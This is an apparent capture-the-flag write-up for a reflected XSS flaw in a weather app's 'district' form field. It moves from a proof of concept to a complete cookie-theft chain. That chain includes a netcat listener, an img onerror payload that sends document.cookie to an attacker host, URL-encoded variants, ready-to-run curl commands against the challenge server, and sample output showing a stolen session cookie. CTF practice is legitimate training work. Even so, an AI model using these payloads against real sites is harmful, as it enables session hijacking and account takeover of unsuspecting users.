 # CTF Challenge: Cyberpunk Weather App - XSS

## 1. Vulnerability Identification

The application is vulnerable to Reflected Cross-Site Scripting (XSS) in the `district` parameter of the weather checking form. When a user submits a district name, if the district is not found, the input is reflected unsanitized into the HTML response.

**Proof of Concept (PoC):**

As demonstrated, sending a POST request to `/` with the following body:

```http
POST / HTTP/1.1
Host: cyberskills.ch:5001
Content-Type: application/x-www-form-urlencoded
Content-Length: 38

district=<img src=x onerror=('alert')>
```

Results in the following HTML output, triggering the JavaScript alert:

```html
<p>District <img src=x onerror=('alert')> not found.</p>
```

This confirms that we can inject arbitrary HTML and JavaScript.

## 2. Exploitation: Stealing Cookies

The goal is to leverage this XSS vulnerability to steal the session cookie of a user (e.g., an admin bot visiting the page with our payload).

### Step 1: Set up a Listener

On an attacker-controlled machine (referred to as `ATTACKER_IP`), set up a simple netcat listener to receive the stolen cookies. Replace `ATTACKER_PORT` with a port of your choice (e.g., 8000 or 9001).

```bash
nc -lvnp ATTACKER_PORT
```

For example, if your IP is `10.0.0.5` and you choose port `9001`:

```bash
nc -lvnp 9001
```

### Step 2: Craft the XSS Payload

We will use an XSS payload that sends the victim's `document.cookie` to our listener.

**Payload HTML:**

```html
<img
  src="x"
  onerror="document.location='http://ATTACKER_IP:ATTACKER_PORT/?c='+document.cookie"
/>
```

This payload, when executed in the victim's browser, will make a GET request to `http://ATTACKER_IP:ATTACKER_PORT/` with the cookies appended as a query parameter `c`.

**URL-encoded payload for the `district` parameter:**
To include this in the `district` form field, it needs to be URL-encoded.
Original: `district=<img src=x onerror="document.location='http://ATTACKER_IP:ATTACKER_PORT/?c='+document.cookie">`
URL-encoded:

```
district=%3Cimg%20src%3Dx%20onerror%3D%22document.location%3D%27http%3A%2F%2FATTACKER_IP%3AATTACKER_PORT%2F%3Fc%3D%27%2Bdocument.cookie%22%3E
```

Remember to replace `ATTACKER_IP` and `ATTACKER_PORT` in the payload _before_ URL-encoding if you are encoding it manually, or ensure your tool does it correctly.

### Step 3: Send the Malicious Request

Submit the crafted payload via a POST request. You can use tools like `curl`, Burp Suite, or a browser's developer tools to modify and resend the request.

**Using `curl`:**

Replace `TARGET_URL` (e.g., `https://cyberskills.ch:5001/`), and ensure `ATTACKER_IP` and `ATTACKER_PORT` in the `-d` field are replaced with your listener's details.

```bash
curl -X POST \
  'TARGET_URL' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-raw 'district=%3Cimg%20src%3Dx%20onerror%3D%22document.location%3D%27http%3A%2F%2FATTACKER_IP%3AATTACKER_PORT%2F%3Fc%3D%27%2Bdocument.cookie%22%3E'
```

For example, if the target is `https://cyberskills.ch:5001/`, your IP is `10.0.0.5`, and port is `9001`:

```bash
curl -X POST \
  'https://cyberskills.ch:5001/' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-raw 'district=%3Cimg%20src%3Dx%20onerror%3D%22document.location%3D%27http%3A%2F%2F10.0.0.5%3A9001%2F%3Fc%3D%27%2Bdocument.cookie%22%3E'
```

If the challenge involves an automated bot visiting links or checking submissions, this payload would need to be triggered within the bot's session.

### Step 4: Receive the Cookies

If the XSS payload is successfully executed in a victim's browser (who has a session cookie, like the `session` cookie you observed), their cookie(s) will be sent to your netcat listener.

Example output on the listener:

```
GET /?c=session=d8ed38d4-b1e0-4a4b-bf91-59719b363369.inViSeZpwKowvPIVNAX8CLv0Q74 HTTP/1.1
Host: ATTACKER_IP:ATTACKER_PORT
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
... (other headers)
```

You can then use this `session` cookie (or any other sensitive cookie captured) to impersonate the victim, potentially accessing privileged areas or retrieving a flag.

## 3. Important Considerations

- **Cookie Name**: The primary cookie observed in your request was `session`. The payload `document.cookie` captures all cookies accessible via JavaScript from that domain.
- **Reachability**: Ensure your `ATTACKER_IP` and `ATTACKER_PORT` are reachable by the server or any bot that might be rendering the page with your payload. If the target server is on the public internet and you are behind a NAT/firewall, you might need to use a publicly accessible server or services like ngrok for your listener.
- **Challenge Goal**: The ultimate goal might be to steal a specific flag stored in a cookie, or to use an admin's session to navigate to a part of the application where the flag is displayed.
- **Encoding**: Pay close attention to character encoding. The payload `<img src=x onerror="document.location='http://ATTACKER_IP:ATTACKER_PORT/?c='+document.cookie">` uses both double and single quotes. When embedding this in HTML attributes or URL parameters, ensure they are handled correctly to avoid breaking the script. The provided URL-encoded version should work for `application/x-www-form-urlencoded` POST bodies.
